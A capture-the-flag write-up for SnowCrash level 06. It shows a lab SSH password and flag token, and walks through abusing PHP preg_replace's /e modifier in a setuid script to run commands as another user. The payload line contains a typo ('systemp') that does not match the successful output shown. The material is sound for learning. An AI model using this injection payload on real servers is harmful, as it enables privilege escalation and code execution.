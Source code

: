 # Level 06 : found flag06

```bash
ssh level06@192.168.1.37 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.1.37
level06@192.168.1.37's password: viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```

```bash
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

Both files `level06` and `level06.php` have been created by flag06.

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

So the code of `level06.php` is actualy read by `level06`

```bash
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

```bash
level06@SnowCrash:~$ php --version
PHP 5.3.10-1ubuntu3.19 with Suhosin-Patch (cli) (built: Jul  2 2015 15:05:54)
Copyright (c) 1997-2012 The PHP Group
Zend Engine v2.3.0, Copyright (c) 1998-2012 Zend Technologies
```

As we see in [level06.php](level06.php), the script is takes 2 arguments, read the content of the first argument, and changes his values to output them.\
But to do that, it uses preg_replace with `/e` option with known as degerous in PHP.

So we can use that point and create a files `/tmp/l06` with bad values :

```bash
echo "[x {${systemp($z)}}]" > /tmp/l06
```

Then call the function with arguments :

```bash
level06@SnowCrash:~$ ./level06 /tmp/l06 whoami
flag06
PHP Notice:  Undefined variable: flag06 in /home/user/level06/level06.php(4) : regexp code on line 1

```

We succefully executed the command `whoami` as flag06

```bash
level06@SnowCrash:~$ ./level06 /tmp/l06 getflag
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

```

****************************************

Documentations :
* https://www.php.net/manual/fr/function.preg-replace.php
* https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
* https://www.php.net/manual/fr/language.types.string.php
